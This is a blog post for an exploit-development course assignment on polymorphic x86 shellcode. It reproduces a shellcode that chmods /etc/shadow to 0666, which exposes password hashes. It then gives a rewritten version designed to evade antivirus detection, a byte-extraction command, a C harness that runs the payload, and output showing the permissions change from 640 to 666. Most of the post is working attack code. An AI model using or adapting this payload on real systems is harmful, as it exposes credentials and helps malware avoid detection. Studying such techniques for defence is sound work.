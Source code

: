 ```yaml
---
title:  "SLAE x86 Assignment 6: Polymorphic Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 6 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
So what is Polymorphism? It is a technique used by exploit developers in order to prevent detection by anti-viruses, and make it hard for other security researchers to fingerprint and understand malicious shellcode. It is done by replacing instructions with similar ones, or by adding in arbitrary instructions that do not affect the operation of the shellcode, or both.

As you may imagine though, this will lead to an increase in size of the shellcode. With that being said, let's start with our first shellcode!

### Shellcode 1: [chmod(/etc/shadow, 0666) & exit()](http://shell-storm.org/shellcode/files/shellcode-556.php)
This shellcode will change the permissions of ```/etc/shadow``` to 666 by executing a ```chmod```. Written by ka0x, here is the original shellcode. It currently has a size of 33 bytes:
```c
#include <stdio.h>

/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009

    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!

*/

int main()
{

    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80

    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();

    return 0;
}
```
Here is a polymorphic version:
```nasm
; SLAE Assignment 6: Polymorphic chmod(/etc/shadow, 0666) & exit()
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text
_start:

  ;clear registers
  lahf                                        ;load flags
  cmc                                         ;complement the carry flag (random stuff)
  xor ecx, ecx                                ;ecx=0
  mul ecx                                     ;eax and ebx=0

  ;chmod
  add al,0xf                                  ;syscall number for chmod
  push ecx                                    ;push nulls onto the stack
  mov dword [esp-4], 0x776f6461               
  mov dword [esp-8], 0x68732f2f               
  mov dword [esp-12], 0x6374652f              ;/etc/shadow
  sub esp, 12                                 ;stack adjustment
  mov esi, esp                                ;move pointer to args into esi
  xchg ebx, esi                              ;move pointer to args into ebx
  push word 0x16d                             ;push 555
  pop ecx                                     ;pop it into ecx
  add ecx, 0x49                               ;add 111 to ecx, which makes it 666
  int 0x80                                    ;syscall
  xor eax, eax                                

  ;exit
  mov al, 0x1
  int 0x80
```
Alright, let's extract the shellcode:
```
$ objdump -d ./poly1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x9f\xf5\x31\xc9\xf7\xe1\x04\x0f\x51\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe6\x87\xde\x66\x68\x6d\x01\x59\x83\xc1\x49\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

keep in mind, we allow 7 opcodes per line
```
Let's paste this in shellcode.c:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x9f\xf5\x31\xc9\xf7\xe1\x04\x0f\x51\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe6\x87\xde\x66\x68\x6d\x01\x59\x83\xc1\x49\xcd\x80\x31\xc0\xb0\x01\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Let's compile and run:
```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

before shellcode execution, permissions of /etc/shadow:
$ stat -c %a /etc/shadow                                                  
640

after:
$ sudo ./shellcode
Shellcode Length:  56
$ stat -c %a /etc/shadow    
666
```
The new length is 56 bytes, which is roughly a 70 percent increase in size. 
